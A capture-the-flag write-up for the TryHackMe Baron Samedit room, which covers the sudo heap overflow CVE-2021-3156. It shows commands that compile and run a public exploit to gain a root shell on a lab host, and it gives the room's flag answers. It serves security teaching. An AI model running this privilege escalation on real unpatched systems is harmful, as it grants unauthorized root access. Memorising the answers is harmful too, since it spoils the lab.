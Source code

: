 # Baron Samedit

This was a heap buffer overflow allowing any user to escalate privileges to root -- no misconfigurations required. This exploit works with the default settings, for any user regardless of sudo permissions, which makes it all the scarier. The vulnerability has been patched, but affects any unpatched version of the sudo program from 1.8.2-1.8.31p2 and 1.9.0-1.9.5p1.

## Task 2 Baron Samedit

#### After compiling the exploit, what is the name of the executable created?

```bash
ssh tryhackme@10.10.54.198
cd Exploit/
make
ls -lA
```

![](<../../.gitbook/assets/Screenshot from 2022-04-04 18-31-26.png>)

{% hint style="success" %}
`sudo-hax-me-a-sandwich`
{% endhint %}

#### Run the exploit! You should now have a root shell -- what is the flag in `/root/flag.txt`?

```bash
./sudo-hax-me-a-sandwich
cat /etc/issue
./sudo-hax-me-a-sandwich 0
cat /root/flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-04 18-33-26.png>)

{% hint style="success" %}
`THM{NmU4OWYwMWJmMjkxMDdiYTU4MWIxNWVk}`
{% endhint %}

## Reference

{% embed url="https://github.com/blasty/CVE-2021-3156" %}
